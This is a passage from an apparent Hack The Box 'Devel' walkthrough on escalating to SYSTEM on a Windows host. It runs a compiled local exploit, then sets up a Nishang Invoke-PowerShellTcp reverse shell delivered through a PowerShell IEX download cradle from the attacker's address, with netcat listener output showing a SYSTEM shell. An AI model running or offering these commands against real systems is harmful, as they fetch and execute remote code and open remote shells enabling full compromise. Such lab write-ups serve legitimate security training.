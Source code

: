 Run exploit and get system shell

```bash
C:\Windows\Temp>40564.exe
40564.exe

c:\Windows\System32>whoami
whoami
nt authority\system

```

## Path 3: Nishang InvokePowerShellTcp.ps1

Copy InvokePowerShellTcp.ps1 from /opt/tools/nishang

```bash
┌──(vagrant㉿kali)-[~/Documents/HTB/windows/devel]
└─$ cp /opt/tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .

```

Edit and place the following at the bottom of the script

```bash
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.9 -Port 9002
```

Upload to the target into IEX which executes the script and results in the netcat listener getting a reverse shell as system user.

```bash
powershell iex(new-object net.webclient).downloadstring('http://10.10.14.9/Invoke-PowerShellTcp.ps1')

# Receive reverse shell on second netcat listener
┌──(vagrant㉿kali)-[~/Documents/HTB/windows/devel]
└─$ nc -nlvp 9002
listening on [any] 9002 ...
connect to [10.10.14.9] from (UNKNOWN) [10.129.46.239] 49206
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
